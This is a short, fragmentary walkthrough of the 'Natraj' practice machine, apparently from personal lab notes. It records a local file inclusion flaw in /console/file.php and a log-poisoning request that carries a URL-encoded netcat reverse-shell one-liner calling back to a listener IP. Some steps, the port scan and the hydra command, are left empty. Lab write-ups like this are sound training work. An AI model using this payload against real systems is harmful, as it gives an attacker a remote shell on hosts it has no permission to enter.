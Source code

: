 # Natraj

![[Pasted image 20220520210413.png]]

```
192.168.1.198
```


## Port scan

```

```

dirbuster found /console/ which has file.php in it.

/console/file.php has an LFI vulnerability.

![[Pasted image 20220527231815.png]]

two of the users have interactive bash at login

```
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

put the users into a file called users.txt

```bash
hydra -l
```

```
http://192.168.1.198/console/file.php?file=../../../../../../../var/log/auth.log&cmd=rm%20/tmp/f;mkfifo%20/tmp/f;%20cat%20/tmp/f%20|%20/bin/sh%20-i%202%3E&1%20|%20nc%20192.168.1.112%209999%20%3E%20/tmp/f
```